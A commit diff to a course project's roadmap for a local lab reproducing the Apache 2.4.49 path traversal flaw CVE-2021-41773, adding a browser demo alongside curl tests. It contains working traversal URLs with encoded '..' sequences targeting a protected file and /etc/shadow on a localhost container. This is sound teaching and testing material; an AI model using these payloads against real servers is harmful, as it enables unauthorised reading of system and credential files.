

Before and after one commit to TamehDave19/CS-4277, a Markdown page: roadmap.md, 2 parts joined by grey strips. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: add hybrid browser and curl demo flow to roadmap
Agent-Logs-Url: https://github.com/TamehDave19/CS-4277/sessions/f3567901-8ee2-43f4-82df-bd83ea2df3a3

Co-authored-by: TamehDave19 <113747645+TamehDave19@users.noreply.github.com>

````diff
--- a/roadmap.md
+++ b/roadmap.md
@@ -61,22 +61,31 @@ CVE-2021-41773 is a path traversal bug in Apache 2.4.49 caused by insufficient U
 ### Prerequisites
 - Phase 1 complete and container running (`cve-2021-41773-lab`).
 - Target file: `/opt/protected/protected.txt` (placed at `/opt/protected/` inside the container, outside the document root `htdocs/`).
+- Demo mode: use a **hybrid approach** (browser for visual storytelling, `curl` for reliable verification).
 
-### Test Cases
+### Test Cases (Hybrid: Browser + curl)
 
-**Test 1 — Path traversal to read protected file**
+**Test 1 — Browser visual demo**
+1. Open: `http://localhost:8080/`
+2. In the browser URL bar, try:
+   `http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/opt/protected/protected.txt`
+3. If the browser normalizes the URL and it fails, try an encoding variant (e.g., `%2e%2e/` or `..%2f`).
+
+Expected (vulnerable): protected file contents are rendered as raw response text.
+
+**Test 2 — Reliable terminal verification**
 ```bash
 curl "http://localhost:8080/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/protected/protected.txt"
 ```
 Expected (vulnerable): contents of `protected.txt` are returned.
 
-**Test 2 — Alternative encoding variant**
+**Test 3 — Alternative encoding variant**
 ```bash
 curl "http://localhost:8080/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/protected/protected.txt"
 ```
 Expected (vulnerable): same file contents returned.
 
-**Test 3 — Attempt against a non-existent path (negative control)**
+**Test 4 — Attempt against a non-existent path (negative control)**
 ```bash
 curl "http://localhost:8080/cgi-bin/%2e%2e/%2e%2e/etc/shadow"
 ```
@@ -84,19 +93,22 @@ Expected: file does not exist inside container; HTTP 404.
 
 ### Tasks
 1. Enable `mod_cgi` or confirm an alias that allows traversal (the `<Directory />` config already grants traversal access).
-2. Run each test case and capture full request + response:
+2. Run browser demo first for presentation clarity, then confirm with `curl` for reliability.
+3. Run each curl test case and capture full request + response:
    ```bash
    curl -v "http://localhost:8080/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/protected/protected.txt" \
        2>&1 | tee exploit/evidence/phase2-traversal.txt
    ```
-3. Document exact HTTP status codes, response bodies, and any error messages observed.
-4. Note limitations (e.g., which path aliases are required, which encodings work).
+4. Document exact HTTP status codes, response bodies, and any error messages observed.
+5. Note limitations (e.g., browser URL normalization behavior, which path aliases are required, which encodings work).
 
 ### Record Evidence
+- Save at least one browser screenshot showing exploit URL + raw response.
 - Save all curl outputs to `exploit/evidence/`.
 - Add a short `exploit/README.md` update summarizing what worked and what did not.
 
 ### Acceptance ✅
+- [ ] Browser-based exploit attempt demonstrated and documented
 - [ ] Path traversal successfully reads `/opt/protected/protected.txt` on the vulnerable image
 - [ ] Both encoding variants tested and results documented
 - [ ] Negative control confirms non-existent paths return 404
@@ -191,7 +203,7 @@ Compare the vulnerable Apache 2.4.49 behavior against two mitigations:
    | Phase 4 — Slides / presentation | | ⬜ |
 
 4. **Presentation / Slides**
-   - Overview of CVE, lab architecture, demo walkthrough, mitigation comparison, lessons learned.
+   - Overview of CVE, lab architecture, **hybrid demo walkthrough (browser + curl)**, mitigation comparison, lessons learned.
 
 ### Acceptance ✅
 - [ ] Final write-up committed to repo
````
